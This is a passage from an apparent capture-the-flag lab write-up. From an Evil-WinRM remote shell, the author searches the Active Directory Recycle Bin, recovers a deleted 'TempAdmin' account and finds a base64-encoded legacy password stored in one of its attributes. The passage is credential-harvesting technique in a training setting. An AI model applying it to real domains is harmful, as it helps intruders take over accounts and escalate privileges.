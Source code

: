 ```PowerShell
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

And look at that, there's the `TempAdmin` user in the AD Recycle Bin.

```PowerShell
*Evil-WinRM* PS C:\> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
```